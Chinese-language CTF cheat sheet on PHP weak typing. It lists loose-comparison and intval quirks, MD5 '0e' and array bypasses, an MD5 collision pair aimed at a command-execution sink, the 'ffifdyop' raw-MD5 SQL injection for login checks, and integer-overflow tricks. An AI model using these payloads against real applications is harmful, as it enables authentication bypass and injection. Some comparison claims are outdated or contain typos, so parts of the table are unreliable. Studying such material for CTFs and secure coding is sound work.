 ## **php弱类型：**
<https://www.cnblogs.com/linfangnan/p/13411103.html>
**类型相等判断**
PHP 比较 2 个值是否相等可以用 “ == ” 或 “ === ”，“ == ” 会在比较时自动转换类型而不改变原来的值，因此这个符号经常出现漏洞。“ == ” 比较相等的一些常见值如下，当某些语句的判断条件是使用 “ == ”来判断时，就可以使用弱类型来替代。值得一提的是 “0e” 开头的哈希字符串，PHP 在处理哈希字符串时会把每一个以 “0E” 开头的哈希值都解释为 0。

```
'' == 0 == false == "0"
"00" == true
'123' == 123
'abc'  == true  常见于字符串判断相等。
1 == true
'abc' != 1
'abc'  == 0
要和一个随机数串弱比较==相同，直接传数组[true,true]==12

'123a' == 123
'123);// ' == 123
'0x01' == 1
'0e12346789' == '0e987654321'
[false] == [0] == [NULL] == ['']
NULL == false == 0
true == 1

'1%2b2' == 1
'1+2' == 1

?num=1+2
$a=$_GET['num'] ==1
intval(a) == 3 
intval(1+2) == 3
intval("1+2") == 1
intval(" '1000' ") == 0
echo intval([0])  // 1 传一个数组永远为1

intval科学计数返回前面，科学计数后有+好返回字符串拼接后值。
intval(2019e1) == 2019
intval(2019e1+1) == 20191 
42.00e+00000 == 42

echo intval(0x117c,0) // 输出10进制4476  
第二个参数默认base是10，如果 base 是0则通过检测 var 的格式来决定使用的进制： 
◦ 如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，  
◦ 如果字符串以 "0" 开始，使用 8 进制(octal)；否则，  
◦ 将使用 10 进制 (decimal)。 

intval(010574,0) //返回值为4476
intval(+010574,0) //返回值为4476

intval(4476.1,0) //返回值为4476
intval(4476.10,0) //返回值为4476

intval(0) == 'flag字符串'
intval(aaa123) == 'flag字符串'
intval(false) == 'flag字符串'
intval(md5(phpinfo())) == '字符串' == 0  字母开头
```

如果遇到了 “===” 则不会进行类型转换，但也并不代表无从下手。如果条件表达式中含有函数，也可以通过**传入数组**让函数返回 NULL 使得条件满足。



^
## **md5判断**
**弱绕过**
```
if(md5($_POST['md51']) == md5($_POST['md52']) 
     && $_POST['md51'] != $_POST['md52'])
```
方法1：

PHP 在处理哈希字符串时，“0e” 开头的值利用 “==” 判断相等时会被视为 0。所以如果两个不同的密码经过哈希以后，其哈希值都是以 ”0E” 开头的，那么 PHP 将会认为他们相同。
md5(QNKCDZO)==0

md51和md52取以下两值
QNKCDZO  s155964671a  s1091221200a  240610708
方法2：
数组绕过，原理是 md5() 等函数不能处理数组，导致函数返回Null。而Null是等于Null的，导致了绕过。
?md51[]=1&md52[]=2

^
**强绕过**
```
if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
}



a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

^
**特性**
md5("123") === md5(123)
md5("INF") === md5(INF)
md5("NAN") === md5(NAN)
在PHP中，NAN是一个特殊的浮点数值，表示非数值（Not-A-Number）。当一个运算无法计算结果时，比如零除以零，就会产生NAN。PHP中的INF是一个特殊的浮点数值，表示无穷大（Infinity）。当数值超过PHP_FLOAT_MAX或者使用一些数学函数产生极大或极小的结果时，就会得到INF。

^
**php中原值和md5(原值)后要==**
原值为0e215962017即可


^
**数据库中的MD5造成注入：**
```
select * from 'admin' where password=md5($pass,true)
```
```
<?php
$pass = "ffifdyop";
echo md5($pass,ture);  //为'or'6?]??!r,??b
?>
```
所以传入ffifdyop即可密码正确。


^
## **sha哈希**
和md5类似，

以下值在sha1加密后以oE开头：
```
sha1('aaroZmOk')
sha1('aaK1STfY')
sha1('aaO8zKZF')
sha1('aa3OFF9m')
```
^
## **php整数溢出**
PHP中整数溢出的具体值取决于系统的架构（32位还是64位）。在32位系统中，整数的范围是 -2147483648 到 2147483647，当超过这个范围时会发生溢出。在64位系统中，整数的范围是 -9223372036854775808 到 9223372036854775807。

当一个整数超过了系统所能表示的最大值，它会回绕到最小值。同样，当一个整数低于系统所能表示的最小值，它会回绕到最大值。这就是整数溢出的发生。

在PHP中，如果整数发生溢出，它不会引发错误，而是静默地产生一个新的整数值。例如，在32位系统中，如果一个整数超过了2147483647，它将回绕到-2147483648。这种行为可能导致程序逻辑错误，因此在处理较大数值时应该格外小心。

```
$arr[$_GET['0']]=1;
if($arr[]==1){ //末尾为1？ 
die($flag);
}

?0=2147483647   //使用数组整型溢出绕过赋值式“永真”
?0[]=1   //数组绕过
```


```
$arr[$_GET['0']]=1;
if($arr[]=1){  //$arr[]=1意思是给数组下一个下标赋值为1
die();
}else{
echo $flag;
}

?0=9223372036854775807     //数组下标溢出，要刚刚好，多了会截断，刚刚好时，经过$arr[]=1下标直接溢出，无法赋值。
```

^
对于会x10倍的数，传入比溢出数少1位的数大一点即可。
```
如932337203685477581
```